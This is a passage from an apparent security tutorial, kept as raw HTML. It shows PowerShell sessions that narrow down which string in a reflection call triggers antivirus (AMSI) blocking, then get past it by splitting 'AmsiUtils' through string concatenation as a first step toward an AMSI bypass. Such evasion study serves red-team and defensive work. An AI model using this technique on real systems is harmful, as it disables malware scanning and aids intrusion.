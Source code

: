     <span class="token operator">+</span> CategoryInfo          : ParserError: <span class="token punctuation">(</span>:<span class="token punctuation">)</span> <span class="token punctuation">[</span><span class="token punctuation">]</span><span class="token punctuation">,</span> ParentContainsErrorRecordException
    <span class="token operator">+</span> FullyQualifiedErrorId : ScriptContainedMaliciousContent
</code></pre>
<p>Nothing surprising there… we can break this snippet up further by 
breaking up the .NET assembly and seeing which part results in an alert.</p>
<pre class=" language-powershell" tabindex="0"><code class=" language-powershell"><span class="token function">PS</span> M:\\&gt; <span class="token namespace">[Ref]</span><span class="token punctuation">.</span>Assembly<span class="token punctuation">.</span>GetType<span class="token punctuation">(</span><span class="token string">'System'</span><span class="token punctuation">)</span>
<span class="token function">PS</span> M:\\&gt; <span class="token namespace">[Ref]</span><span class="token punctuation">.</span>Assembly<span class="token punctuation">.</span>GetType<span class="token punctuation">(</span><span class="token string">'System.Management'</span><span class="token punctuation">)</span>
<span class="token function">PS</span> M:\\&gt; <span class="token namespace">[Ref]</span><span class="token punctuation">.</span>Assembly<span class="token punctuation">.</span>GetType<span class="token punctuation">(</span><span class="token string">'System.Management.Automation'</span><span class="token punctuation">)</span>
<span class="token function">PS</span> M:\\&gt; <span class="token namespace">[Ref]</span><span class="token punctuation">.</span>Assembly<span class="token punctuation">.</span>GetType<span class="token punctuation">(</span><span class="token string">'System.Management.Automation.AmsiUtils'</span><span class="token punctuation">)</span>
At line:1 char:1
<span class="token operator">+</span> <span class="token namespace">[Ref]</span><span class="token punctuation">.</span>Assembly<span class="token punctuation">.</span>GetType<span class="token punctuation">(</span><span class="token string">'System.Management.Automation.AmsiUtils'</span><span class="token punctuation">)</span>
<span class="token operator">+</span> ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software<span class="token punctuation">.</span>
    <span class="token operator">+</span> CategoryInfo          : ParserError: <span class="token punctuation">(</span>:<span class="token punctuation">)</span> <span class="token punctuation">[</span><span class="token punctuation">]</span><span class="token punctuation">,</span> ParentContainsErrorRecordException
    <span class="token operator">+</span> FullyQualifiedErrorId : ScriptContainedMaliciousContent
</code></pre>
<p>We now know that <code>AmsiUtils</code> is contributing directly to 
the alert. Next, we can target it with concatenation to break it up and 
attempt to make this section clean.</p>
<pre class=" language-powershell" tabindex="0"><code class=" language-powershell"><span class="token function">PS</span> M:\\&gt; <span class="token namespace">[Ref]</span><span class="token punctuation">.</span>Assembly<span class="token punctuation">.</span>GetType<span class="token punctuation">(</span><span class="token string">'System.Management.Automation.'</span><span class="token operator">+</span><span class="token string">'Amsi'</span><span class="token operator">+</span><span class="token string">'Utils'</span><span class="token punctuation">)</span>

IsPublic IsSerial Name                                     BaseType
<span class="token operator">--</span>-<span class="token operator">--</span>-<span class="token operator">--</span> <span class="token operator">--</span>-<span class="token operator">--</span>-<span class="token operator">--</span> <span class="token operator">--</span>-<span class="token operator">-</span>                                     <span class="token operator">--</span>-<span class="token operator">--</span>-<span class="token operator">--</span>
False    False    AmsiUtils                                System<span class="token punctuation">.</span>Object
</code></pre>
<p>Success! Now we can append our next snippet to this clean version of the first snippet and execute it.</p>